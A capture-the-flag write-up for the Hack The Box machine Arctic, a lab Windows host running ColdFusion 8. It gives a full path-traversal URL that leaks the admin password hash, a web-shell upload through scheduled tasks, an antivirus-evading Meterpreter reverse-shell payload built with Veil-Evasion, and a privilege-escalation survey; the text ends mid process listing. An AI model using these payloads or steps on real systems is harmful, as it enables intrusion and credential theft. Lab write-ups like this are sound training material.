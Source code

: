 ```yaml
---
layout: post
title: Arctic(HTB)
categories:
  - Writeup
---
```


<br>OS Windows
<br>IP: 10.10.10.11
<br>Machine Author: ch4p

**Nmap**:-
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nmap -sS -A 10.10.10.11</p>

<p>Starting Nmap 7.50 ( https://nmap.org ) at 2017-12-27 08:00 EST
<br>Nmap scan report for 10.10.10.11
<br>Host is up (0.16s latency).
<br>Not shown: 997 filtered ports
<br>PORT      STATE SERVICE VERSION
<br><font color="BB69EC">135/tcp</font>   open  <font color="53E100">msrpc</font>   Microsoft Windows RPC
<br><font color="BB69EC">8500/tcp</font>  open  <font color="53E100">fmtp?</font>
<br><font color="BB69EC">49154/tcp</font> open  <font color="53E100">unknown</font>
<br>Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
<br>Device type: specialized|WAP|phone
<br>Running: iPXE 1.X, Linux 2.4.X|2.6.X, Sony Ericsson embedded
<br>OS CPE: cpe:/o:ipxe:ipxe:1.0.0%2b cpe:/o:linux:linux_kernel:2.4.20 cpe:/o:linux:linux_kernel:2.6.22 cpe:/h:sonyericsson:u8i_vivaz
<br>OS details: iPXE 1.0.0+, Tomato 1.28 (Linux 2.4.20), Tomato firmware (Linux 2.6.22), Sony Ericsson U8i Vivaz mobile phone
<br>Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows</p>

<p>TRACEROUTE (using port 135/tcp)
<br>HOP RTT        ADDRESS
<br>1   191.61 ms  10.10.14.1
<br>2   ... 6
<br>7   2371.15 ms 10.10.14.1</p>

<p>OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
<br>Nmap done: 1 IP address (1 host up) scanned in 85.23 seconds
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># </p>
</div>
</font>

<br>**Web**:-
![Web](https://teckk2.github.io/assets/images/Arctic/1-Arctic.png)
<br>On port:**8500** there are two directories 
<br>If we open **/cfdocs/** directory then we can see there is _adobe coldfusion 8_ is running on the web.
![coldfusion](https://teckk2.github.io/assets/images/Arctic/2-Arctic.png)
<br>For which there is a **LFI** exploit available using which we can reveal the admin password **hash**.
<br>[http://10.10.10.11:8500//CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en](http://10.10.10.11:8500//CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en)
![admin-hash](https://teckk2.github.io/assets/images/Arctic/3-Arctic.PNG)
<br>Now crack the password hash using [online tool](https://crackstation.net/) or if you want you can use john or hashcat.
![hash-cracker](https://teckk2.github.io/assets/images/Arctic/4-Arctic.PNG)
<br>The Password is _**{happyday}**_, now we can loggin into **coldfusion** as _admin_.
<br>And make sure that Coldfusion only allow two loggin at a time and it's really slow to response, So if you are unable to loggin then must be there is someone logged in or forget to logout, So revert the machine if you face any issue like this.
<br>Now Go to DEBUGGING & LOGGING tab and click on Scheduled Task now a page will popup then click on Schedule New Task.
![Shedule-Task](https://teckk2.github.io/assets/images/Arctic/5-Arctic.PNG)
![NEW-TASK](https://teckk2.github.io/assets/images/Arctic/6-Arctic.PNG)
<br>Before we proceed further we need to create a cfexec.cfm file which will give us a web shell. So, Copy The HTML payload From my [Pastebin](https://pastebin.com/KSZ4WrfV) and paste it in a new file and make sure to name it cfexec.cfm or it will not work because it's hardcoded.
![cfexec.cfm](https://teckk2.github.io/assets/images/Arctic/7-Arctic.PNG)
<br>Now Set up our WebServer and then fillup the shedule page as shown in the image below.
![python server](https://teckk2.github.io/assets/images/Arctic/8-Arctic.PNG)
![Shedule](https://teckk2.github.io/assets/images/Arctic/9-Arctic.PNG)
<br>If all goes correct then as soon you click the submit button, you will see the file request from the server.
![response](https://teckk2.github.io/assets/images/Arctic/10-Arctic.PNG)
<br>If you don't get file request automatically, then you can try clicking (_Run Shedule Task_) button below **Actions**.
<br>Now check the page we uploaded [http://10.10.10.11:8500/CFIDE/cfexec.cfm](http://10.10.10.11:8500/CFIDE/cfexec.cfm)
<br>It should be blank so we need to specify the cmd.exe location to execute the command and in option the command we need to execute and the output file.
![command](https://teckk2.github.io/assets/images/Arctic/11-Arctic.PNG)
<br>It will take around 10 to 20 sec to execute the command so wait untill the page loads, and after that cehck the output.txt file
![output](https://teckk2.github.io/assets/images/Arctic/12-Arctic.PNG)
<br>We got the RCE, there is an **AV** runnning on the target machine and in order to get reverse shell we need to create an encrypted payload in (.bat) format using [Veil-Evasion](https://github.com/Veil-Framework/Veil-Evasion) tool.
<br>Download the tool,No need to install just run the (Veil-Evasion.py) and generate the payload
<br>Check the list of Payload avaialble and chose (powershell/meterpreter/rev_tcp).
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Downloads/Veil-Evasion-master</font># ./Veil-Evasion.py</p>
<p>=========================================================================
<br>&nbsp;Veil-Evasion | [Version]: 2.28.2
<br>=========================================================================
<br>&nbsp;[Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
<br>=========================================================================</p>

<p>&nbsp;Main Menu</p>

<p>&nbsp;<font color="53E100">51</font> payloads loaded</p>

<p>&nbsp;Available Commands:</p>

<p>&nbsp;use&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Use a specific payload
<br>&nbsp;info&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Information on a specific payload
<br>&nbsp;list&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;List available payloads
<br>&nbsp;update&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Update Veil-Evasion to the latest version
<br>&nbsp;clean&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Clean out payload folders
<br>&nbsp;checkvt&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Check payload hashes vs. VirusTotal
<br>&nbsp;exit&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Exit Veil-Evasion</p>

<p>&nbsp;[menu>>]: <font color="BB69EC">list</font></p>
<p>=========================================================================
<br>&nbsp;Veil-Evasion | [Version]: 2.28.2
<br>=========================================================================
<br>&nbsp;[Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
<br>=========================================================================</p>


<p>&nbsp;<font color="53E100">[*] Available Payloads:</font></p>

<p>&nbsp;1)	auxiliary/coldwar_wrapper
<br>&nbsp;2)	auxiliary/macro_converter
<br>&nbsp;3)	auxiliary/pyinstaller_wrapper</p>

<p>&nbsp;4)	c/meterpreter/rev_http  
<br>&nbsp;5)	c/meterpreter/rev_http_service
<br>&nbsp;6)	c/meterpreter/rev_tcp   
<br>&nbsp;7)	c/meterpreter/rev_tcp_service
<br>&nbsp;8)	c/shellcode_inject/flatc</p>

<p>&nbsp;9)	cs/meterpreter/rev_http 
<br>&nbsp;10)	cs/meterpreter/rev_https
<br>&nbsp;11)	cs/meterpreter/rev_tcp  
<br>&nbsp;12)	cs/shellcode_inject/base64_substitution
<br>&nbsp;13)	cs/shellcode_inject/virtual</p>

<p>&nbsp;14)	go/meterpreter/rev_http 
<br>&nbsp;15)	go/meterpreter/rev_https
<br>&nbsp;16)	go/meterpreter/rev_tcp  
<br>&nbsp;17)	go/shellcode_inject/virtual</p>

<p>&nbsp;18)	native/backdoor_factory 
<br>&nbsp;19)	native/hyperion         
<br>&nbsp;20)	native/pe_scrambler</p>     

<p>&nbsp;21)	perl/shellcode_inject/flat</p>

<p>&nbsp;22)	powershell/meterpreter/rev_http
<br>&nbsp;23)	powershell/meterpreter/rev_https
<br>&nbsp;24)	powershell/meterpreter/rev_tcp
<br>&nbsp;25)	powershell/shellcode_inject/download_virtual
<br>&nbsp;26)	powershell/shellcode_inject/download_virtual_https
<br>&nbsp;27)	powershell/shellcode_inject/psexec_virtual
<br>&nbsp;28)	powershell/shellcode_inject/virtual</p>

<p>&nbsp;29)	python/meterpreter/bind_tcp
<br>&nbsp;30)	python/meterpreter/rev_http
<br>&nbsp;31)	python/meterpreter/rev_http_contained
<br>&nbsp;32)	python/meterpreter/rev_https
<br>&nbsp;33)	python/meterpreter/rev_https_contained
<br>&nbsp;34)	python/meterpreter/rev_tcp
<br>&nbsp;35)	python/shellcode_inject/aes_encrypt
<br>&nbsp;36)	python/shellcode_inject/aes_encrypt_HTTPKEY_Request
<br>&nbsp;37)	python/shellcode_inject/arc_encrypt
<br>&nbsp;38)	python/shellcode_inject/base64_substitution
<br>&nbsp;39)	python/shellcode_inject/des_encrypt
<br>&nbsp;40)	python/shellcode_inject/download_inject
<br>&nbsp;41)	python/shellcode_inject/flat
<br>&nbsp;42)	python/shellcode_inject/letter_substitution
<br>&nbsp;43)	python/shellcode_inject/pidinject
<br>&nbsp;44)	python/shellcode_inject/stallion</p>

<p>&nbsp;45)	ruby/meterpreter/rev_http
<br>&nbsp;46)	ruby/meterpreter/rev_http_contained
<br>&nbsp;47)	ruby/meterpreter/rev_https
<br>&nbsp;48)	ruby/meterpreter/rev_https_contained
<br>&nbsp;49)	ruby/meterpreter/rev_tcp
<br>&nbsp;50)	ruby/shellcode_inject/base64
<br>&nbsp;51)	ruby/shellcode_inject/flat</p>

<p>&nbsp;[menu>>]: <font color="BB69EC">use 24</font></p>
<p>=========================================================================
<br>&nbsp;Veil-Evasion | [Version]: 2.28.2
<br>=========================================================================
<br>&nbsp;[Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
<br>=========================================================================</p>


<p>&nbsp;Payload: powershell/meterpreter/rev_tcp loaded</p>


<p>&nbsp;Required Options:</p>

<p>&nbsp;Name&nbsp;&nbsp;&nbsp;Current&nbsp;Value&nbsp;Description
<br>&nbsp;----&nbsp;&nbsp;&nbsp;-------------&nbsp;-----------
<br>&nbsp;LHOST&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;IP of the Metasploit handler
<br>&nbsp;LPORT&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;4444&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Port of the Metasploit handler</p>

<p>&nbsp;Available Commands:</p>

<p>&nbsp;set&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Set a specific option value
<br>&nbsp;info&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Show information about the payload
<br>&nbsp;options&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Show payload's options
<br>&nbsp;generate&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Generate payload
<br>&nbsp;back&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Go to the main menu
<br>&nbsp;exit&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;exit Veil-Evasion</p>

<p>&nbsp;[powershell/meterpreter/rev_tcp>>]: <font color="BB69EC">set LHOST 10.10.*.*</font>
<br>&nbsp;[i] LHOST => 10.10.*.*
<br>&nbsp;[powershell/meterpreter/rev_tcp>>]: <font color="BB69EC">set LPORT 4455</font>
<br>&nbsp;[i] LPORT => 4455
<br>&nbsp;[powershell/meterpreter/rev_tcp>>]: <font color="BB69EC">generate</font></p>
 
<p>=========================================================================
<br>&nbsp;Veil-Evasion | [Version]: 2.28.2
<br>=========================================================================
<br>&nbsp;[Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
<br>=========================================================================</p>


<p>&nbsp;[>] Please enter the base name for output files (default is 'payload'): arctic</p>

<p>&nbsp;Language:		<font color="53E100">powershell</font>
<br>&nbsp;Payload:		powershell/meterpreter/rev_tcp
<br>&nbsp;Required Options:      LHOST=10.10.*.*  LPORT=4455
<br>&nbsp;Payload File:		/var/lib/veil-evasion/output/source/arctic.bat
<br>&nbsp;Handler File:		/var/lib/veil-evasion/output/handlers/arctic_handler.rc</p>

<p>&nbsp;[*] Your payload files have been generated, don't get caught!
<br>&nbsp;<font color="ffff00">[!] And don't submit samples to any online scanner! ;)</font></p>

<p>&nbsp;[>] Press any key to return to the main menu.</p>
</div>
</font>
<br>Our payload has been generate, now copy the payload to desktop and set up the webserver if it's not already running to upload the file.
<font size="1">
<div style="height:100px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Downloads/Veil-Evasion-master</font># cp /var/lib/veil-evasion/output/source/arctic.bat /root/Desktop/
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Downloads/Veil-Evasion-master</font># cd /root/Desktop/
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># python -m SimpleHTTPServer 80
<br>Serving HTTP on 0.0.0.0 port 80 ...</p>
</div>
</font>
<br>Now upload the file using the same method we uploaded our HTML payload earlier using (Shedule Task), for this create a new shedule task and trigger the file using our web shell.
![arctic-shell](https://teckk2.github.io/assets/images/Arctic/13-Arctic.PNG)
<br>amd make sure to save the file at (C:\ColdFusion8\wwwroot\CFIDE\arctic.bat)
<br>Then run the button **(Run Shedule Task)** under **(Actions)** to upload the file to the server.
![Start-shedule-task](https://teckk2.github.io/assets/images/Arctic/14-Arctic.PNG)
<br>Before we proceed ahead check if the payload file has been uploaded successfully or not?
![arctic.bat](https://teckk2.github.io/assets/images/Arctic/15-Arctic.PNG)
<br>Now set up the listner and execute the file from the web
![arctic.bat-2](https://teckk2.github.io/assets/images/Arctic/16-Arctic.PNG)
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p>msf > use exploit/multi/handler 
<br>msf exploit(<font color="red">handler</font>) > set payload windows/meterpreter/reverse_tcp
<br>payload => windows/meterpreter/reverse_tcp
<br>msf exploit(<font color="red">handler</font>) > set LHOST 10.10.*.*
<br>LHOST => 10.10.*.*
<br>msf exploit(<font color="red">handler</font>) > set LPORT 4455
<br>LPORT => 4455
<br>msf exploit(<font color="red">handler</font>) > exploit </p>

<p><font color="RoyalBlue">[*]</font> Started reverse TCP handler on 10.10.*.*:4455 
<br><font color="RoyalBlue">[*]</font> Starting the payload handler...
<br><font color="RoyalBlue">[*]</font> Sending stage (957487 bytes) to 10.10.10.11
<br><font color="RoyalBlue">[*]</font> Meterpreter session 1 opened (10.10.**.*:4455 -> 10.10.10.11:65155) at 2017-12-30 02:24:25 -0500</p>

<p>meterpreter > sysinfo 
<br>Computer&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;: ARCTIC
<br>OS&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;: Windows 2008 R2 (Build 7600).
<br>Architecture&nbsp;&nbsp;&nbsp;&nbsp;: x64
<br>System Language : el_GR
<br>Domain&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;: HTB
<br>Logged On Users : 1
<br>Meterpreter&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;: x86/windows
<br>meterpreter > getuid
<br>Server username: ARCTIC\tolis
<br>meterpreter > run post/multi/recon/local_exploit_suggester</p>

<p><font color="RoyalBlue">[*]</font> 10.10.10.11 - Collecting local exploits for x86/windows...
<br><font color="RoyalBlue">[*]</font> 10.10.10.11 - 37 exploit checks are being tried...
<br><font color="53E100">[+]</font> 10.10.10.11 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
<br><font color="53E100">[+]</font> 10.10.10.11 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
<br><font color="53E100">[+]</font> 10.10.10.11 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
<br><font color="53E100">[+]</font> 10.10.10.11 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
<br><font color="53E100">[+]</font> 10.10.10.11 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
<br><font color="53E100">[+]</font> 10.10.10.11 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
<br><font color="53E100">[+]</font> 10.10.10.11 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The target service is running, but could not be validated.
<br><font color="53E100">[+]</font> 10.10.10.11 - exploit/windows/local/ms_ndproxy: The target service is running, but could not be validated.
<br><font color="53E100">[+]</font> 10.10.10.11 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
<br>meterpreter > </p>
</div>
</font>
<br>There are few exploits suggested by **MSF** which we can use to gain Admin/System Levle access, but before we start, weneed to migrate our meterpreter to x64/windows meterpreter session because the Architectur is X64 and our current session is X86/windows.
<br>There are two ways to migrate either you create another payload with x64 sepecified then upload and execute it and get meterpreter or you can migrate to a X64 session which already running on the system.
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p>meterpreter > ps</p>

<p>Process List
<br>============</p>

 <p>PID&nbsp;&nbsp;&nbsp;PPID&nbsp;&nbsp;Name&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Arch&nbsp;&nbsp;Session&nbsp;&nbsp;User&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Path
 <br>---&nbsp;&nbsp;&nbsp;----&nbsp;&nbsp;----&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;----&nbsp;&nbsp;-------&nbsp;&nbsp;----&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;----
 <br>0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;[System Process]                                      
 <br>4&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;System                                                
 <br>236&nbsp;&nbsp;&nbsp;4&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;smss.exe                                              
 <br>272&nbsp;&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;svchost.exe                                           
 <br>324&nbsp;&nbsp;&nbsp;316&nbsp;&nbsp;&nbsp;csrss.exe                                             
 <br>336&nbsp;&nbsp;&nbsp;1168&nbsp;&nbsp;cmd.exe&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;x64&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ARCTIC\tolis&nbsp;&nbsp;C:\Windows\System32\cmd.exe
 <br>368&nbsp;&nbsp;&nbsp;316&nbsp;&nbsp;&nbsp;wininit.exe                                           
 <br>388&nbsp;&nbsp;&nbsp;376&nbsp;&nbsp;&nbsp;csrss.exe                                             
 <br>440&nbsp;&nbsp;&nbsp;376&nbsp;&nbsp;&nbsp;winlogon.exe                                          
 <br>484&nbsp;&nbsp;&nbsp;368&nbsp;&nbsp;&nbsp;services.exe                                          
 <br>492&nbsp;&nbsp;&nbsp;368&nbsp;&nbsp;&nbsp;lsass.exe                                             
 <br>500&nbsp;&nbsp;&nbsp;368&nbsp;&nbsp;&nbsp;lsm.exe                                               
 <br>600&nbsp;&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;svchost.exe                                           
 <br>672&nbsp;&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;svchost.exe                                           
 <br>748&nbsp;&nbsp;&nbsp;440&nbsp;&nbsp;&nbsp;LogonUI.exe                                           
 <br>756&nbsp;&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;svchost.exe                                           
 <br>796&nbsp;&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;svchost.exe                                           
 <br>844&nbsp;&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;svchost.exe                                           
 <br>892&nbsp;&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;svchost.exe                                           
 <br>932&nbsp;&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;svchost.exe                                           
 <br>944&nbsp;&nbsp;&nbsp;324&nbsp;&nbsp;&nbsp;conhost.exe&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;x64&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ARCTIC\tolis&nbsp;&nbsp;C:\Windows\System32\conhost.exe
 <br>952&nbsp;&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;spoolsv.exe                                           
 <br>1004&nbsp;&nbsp;324&nbsp;&nbsp;&nbsp;conhost.exe&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;x64&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ARCTIC\tolis&nbsp;&nbsp;C:\Windows\System32\conhost.exe
 <br>1036&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;CF8DotNetsvc.exe                                      
 <br>1080&nbsp;&nbsp;1036&nbsp;&nbsp;JNBDotNetSide.exe                                     
 <br>1088&nbsp;&nbsp;324&nbsp;&nbsp;&nbsp;conhost.exe                                           
 <br>1124&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;dllhost.exe                                           
 <br>1140&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;jrunsvc.exe&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;x64&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ARCTIC\tolis&nbsp;&nbsp;C:\ColdFusion8\runtime\bin\jrunsvc.exe
 <br>1168&nbsp;&nbsp;1140&nbsp;&nbsp;jrun.exe&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;x64&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ARCTIC\tolis&nbsp;&nbsp;C:\ColdFusion8\runtime\bin\jrun.exe
 <br>1176&nbsp;&nbsp;324&nbsp;&nbsp;&nbsp;conhost.exe&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;x64&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ARCTIC\tolis&nbsp;&nbsp;C:\Windows\System32\conhost.exe
 <br>1184&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;swagent.exe                                           
 <br>1220&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;swstrtr.exe                                           
 <br>1228&nbsp;&nbsp;1220&nbsp;&nbsp;swsoc.exe                                             
 <br>1236&nbsp;&nbsp;324&nbsp;&nbsp;&nbsp;conhost.exe                                           
 <br>1240&nbsp;&nbsp;600&nbsp;&nbsp;&nbsp;WmiPrvSE.exe                                          
 <br>1304&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;k2admin.exe                                           
 <br>1364&nbsp;&nbsp;324&nbsp;&nbsp;&nbsp;conhost.exe&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;x64&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ARCTIC\tolis&nbsp;&nbsp;C:\Windows\System32\conhost.exe
 <br>1436&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;svchost.exe                                           
 <br>1480&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;VGAuthService.exe                                     
 <br>1736&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;vmtoolsd.exe                                          
 <br>1748&nbsp;&nbsp;3180&nbsp;&nbsp;powershell.exe&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;x86&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ARCTIC\tolis&nbsp;&nbsp;C:\Windows\syswow64\windowspowershell\v1.0\powershell.exe
 <br>1760&nbsp;&nbsp;484&nbsp;&nbsp;&nbsp;ManagementAgentHost.exe                               
 <br>2052&nbsp;&nbsp;1304&nbsp;&nbsp;k2server.exe                                          
 <br>2060&nbsp;&nbsp;324&nbsp;&nbsp;&nbsp;conhost.exe                                           
 <br>2128&nbsp;&nbsp;1304&nbsp;&nbsp;k2index.exe                                           
 <br>2144&nbsp;&nbsp;324&nbsp;&nbsp;&nbsp;conhost.exe                                           
 <br>2320&nbsp;&nbsp;1168&nbsp;&nbsp;cmd.exe&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;x64&nbsp;&nbsp;&nbsp;0&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ARCTIC\tolis&nbsp;&nbsp;C:\Windows\System32\cmd.exe
 <br>2892&nbsp;&nbsp;796&nbsp;&nbsp;&nbsp;taskeng.exe                                           
